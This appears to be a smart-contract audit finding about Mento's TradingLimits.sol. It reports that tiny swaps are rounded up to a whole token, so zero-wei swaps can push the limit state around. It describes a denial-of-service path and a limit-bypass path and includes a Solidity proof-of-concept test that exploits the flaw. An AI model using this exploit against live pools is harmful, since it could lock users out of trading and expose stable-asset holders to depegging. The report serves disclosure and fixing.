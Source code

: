 Flaky Charcoal Elephant

High

# It is possible to bypass trading limits

### Summary

Because of the way in which TrandingLimits.sol rounds swaps up to the nearest whole token doing the accounting for any given trade, it is possible to game the state of the current trading limits, making them optional for a sufficiently sophisticated actor.

### Root Cause

The problem is most succinctly explained in the [comments](https://github.com/sherlock-audit/2024-10-mento-update/blob/098b17fb32d294145a7f000d96917d13db8756cc/mento-core/contracts/libraries/TradingLimits.sol#L29-L31) at the start of the file, which state that trading limits are stored with zero decimals so as to fit within a int48.

The problem arises in the following block of [code](https://github.com/sherlock-audit/2024-10-mento-update/blob/098b17fb32d294145a7f000d96917d13db8756cc/mento-core/contracts/libraries/TradingLimits.sol#L130-L136):

```solidity
@>  int256 _deltaFlowUnits = _deltaFlow / int256((10 ** uint256(decimals))); // decimals chopped off
    require(_deltaFlowUnits <= MAX_INT48, "dFlow too large");

    int48 deltaFlowUnits = int48(_deltaFlowUnits);
    if (deltaFlowUnits == 0) {
@>    deltaFlowUnits = _deltaFlow > 0 ? int48(1) : int48(-1); // rounded to nearest whole token
    }
```

To counteract the loss of precision created by chopping off decimals, the protocol rounds any small enough swap to either 1 or -1 depending on the direction of the swap.

The problem with this is that it it allows anyone to push the current trading limit state around for as little as 0 wei.

### Internal pre-conditions

1. Trading limits are in place for a pool

### External pre-conditions

_No response_

### Attack Path

There are two possible attack paths, DOS and trading limit bypass.

DOS:
1. attacker makes a series of small transactions (0 wei each) to push trading limit state to the maximum or minimum
2. users can now only trade in one direction

Bypass:
1. attacker makes a series of small transactions (0 wei each) to push trading limit around
2. attacker trades in the opposite direction with size
3. if the attacker wishes to trade more, he or she can repeat 1 and 2 indefinitely

Making 10,000 calls as in the POC may be ridiculous, but if something is already at a limit and someone wants to go beyond it, it would be trivial to push around the limits to allow any trade to happen.

### Impact

An attacker can DOS users from buying or selling a given token for very cheap.

An attacker can entirely bypass the trading limits if he or she wants to trade more size than should be allowed. This threatens the price stability of any pool with trading limits in place. The trading limits are designed to smooth the impact of price fluctuations against the holders of a pool's stable value assets, and being able to bypass that exposes holders of theoretically stable assets to potentially unlimited volatility. This would allow flash crash and severe depegging situations to impact users that should have been protected by the trading limits.

### PoC

Please put the following code into BrokerIntegration.t.sol:

```solidity
  function test_bypass_trading_limits() public {
    // the default test trading limits are set to 10,000 tokens for limit0
    // configL0L1LG(100, 10000, 1000, 100000, 1000000);

    // mint more than the default for this test file
    deal(address(cUSDToken), trader, 10 ** 23, true); // Mint 100k to trader
    deal(address(cEURToken), trader, 10 ** 23, true); // Mint 100k to trader
    vm.startPrank(trader);
    
    // setup swap params
    uint256 amountIn = 0;
    IERC20 tokenIn = IERC20(address(cEURToken));
    IERC20 tokenOut = IERC20(address(cUSDToken));
    bytes32 poolId = pair_cUSD_cEUR_ID;

    // Get amounts before swap
    uint256 traderTokenInBefore = tokenIn.balanceOf(trader);

    // This swap goes beyond the limit and will revert - we'll repeat this later and succeed
    IERC20(tokenOut).approve(address(broker), 20000 * 10 ** 18);
    address[] memory exchangeProviders = broker.getExchangeProviders();
    vm.expectRevert("L0 Exceeded");
    broker.swapIn(address(exchangeProviders[0]), poolId, address(tokenOut), address(tokenIn), 20000 * 10 ** 18, 0);

    // 10,000 swaps for 0 wei each
    for (uint256 i = 0; i < 10000; ++i) {
        doSwapIn(poolId, amountIn, address(tokenIn), address(tokenOut));
    }
    
    // now the limits are maxed out - attacker didn't pay any wei
    // to trigger a 10k limit
    // the 10,001st swap will fail
    vm.expectRevert("L0 Exceeded");
    broker.swapIn(address(exchangeProviders[0]), poolId, address(tokenIn), address(tokenOut), amountIn, 0);

    // Ensure attacker spent nothing
    uint256 traderTokenInAfter = tokenIn.balanceOf(trader);
    assertEq(traderTokenInAfter, traderTokenInBefore);

    // at this point anyone interacting with the pool is DOSd from trading in one direction
    // additionally, the attacker can now use the freshly maxed out limit
    // to trade with huge size in the opposite direction and bypass the intended limit

    // swap 20k in the other direction
    // this would have failed at the beginning due to the 10k trading limit but succeeds now
    doSwapIn(poolId, 20000 * 10 ** 18, address(tokenOut), address(tokenIn));
  }
```

### Mitigation

Don't truncate decimals in TradingLimits.sol